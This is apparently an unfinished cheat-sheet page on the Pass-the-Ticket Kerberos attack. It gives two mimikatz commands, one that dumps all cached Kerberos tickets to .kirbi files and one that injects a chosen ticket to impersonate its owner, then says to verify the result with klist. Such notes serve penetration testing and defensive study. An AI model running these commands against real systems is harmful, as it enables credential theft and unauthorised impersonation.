 # Pass The Ticket

#### STILL EDITING

#### Pass The ticket

* Export all the tickets into **`.kirbi`** files in the current directory:

```
mimikatz # sekurlsa::tickets /export
```

* Impersonate a given ticket:

```
mimikatz # kerberos::ptt <ticket>
```

* Verify with `klist` (or with `kerberos::list` within `mimikatz`) that we successfully impersonated the ticket by listing our cached tickets.
